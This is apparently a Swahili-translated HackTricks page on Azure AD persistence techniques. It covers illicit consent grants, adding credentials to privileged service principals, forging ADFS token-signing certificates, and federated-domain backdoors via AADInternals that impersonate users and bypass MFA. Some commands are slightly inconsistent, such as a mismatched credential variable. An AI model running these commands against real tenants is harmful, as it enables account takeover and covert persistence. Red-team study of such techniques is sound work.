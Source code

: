 # Az - Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Illicit Consent Grant

Kwa kawaida, mtumiaji yeyote anaweza kujiandikisha programu katika Azure AD. Hivyo unaweza kujiandikisha programu (tu kwa ajili ya mpangilio wa lengo) inayohitaji ruhusa zenye athari kubwa kwa idhini ya msimamizi (na kuidhinisha ikiwa wewe ni msimamizi) - kama kutuma barua pepe kwa niaba ya mtumiaji, usimamizi wa majukumu n.k. Hii itaturuhusu **kutekeleza mashambulizi ya phishing** ambayo yatakuwa na **faida kubwa** endapo yatakuwa na mafanikio.

Zaidi ya hayo, unaweza pia kukubali programu hiyo kwa mtumiaji wako kama njia ya kudumisha ufikiaji juu yake.

### Applications and Service Principals

Kwa ruhusa za Msimamizi wa Programu, GA au jukumu la kawaida lenye ruhusa microsoft.directory/applications/credentials/update, tunaweza kuongeza akreditivu (siri au cheti) kwa programu iliyopo.

Inawezekana **kulenga programu yenye ruhusa kubwa** au **kuongeza programu mpya** yenye ruhusa kubwa.

Jukumu la kuvutia kuongeza kwenye programu litakuwa **jukumu la msimamizi wa uthibitishaji wenye mamlaka** kwani linaruhusu **kurekebisha nenosiri** la Wasimamizi wa Kimataifa.

Teknolojia hii pia inaruhusu **kuzidi MFA**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Kwa uthibitisho wa msingi wa cheti

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Federation - Token Signing Certificate

Kwa **privilege za DA** kwenye AD ya ndani, inawezekana kuunda na kuingiza **vyeti vya kusaini Token** na **vyeti vya Kufichua Token** ambavyo vina muda mrefu wa uhalali. Hii itaturuhusu **kuingia kama mtumiaji yeyote** ambaye ImuutableID yake tunajua.

**Kimbia** amri iliyo hapa chini kama **DA kwenye seva za ADFS** kuunda vyeti vipya (nenosiri la default 'AADInternals'), viweke kwenye ADFS, zima auto rollver na uanzishe huduma:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Kisha, sasisha taarifa za cheti na Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Trusted Domain

Kwa kuwa na haki za GA kwenye mpangilio, inawezekana **kuongeza eneo jipya** (lazima liwe limehakikishwa), kuunda aina yake ya uthibitisho kuwa ya Shirikisho na kuunda eneo hilo **kuamini cheti maalum** (any.sts katika amri iliyo hapa chini) na mtoaji:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## References

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}

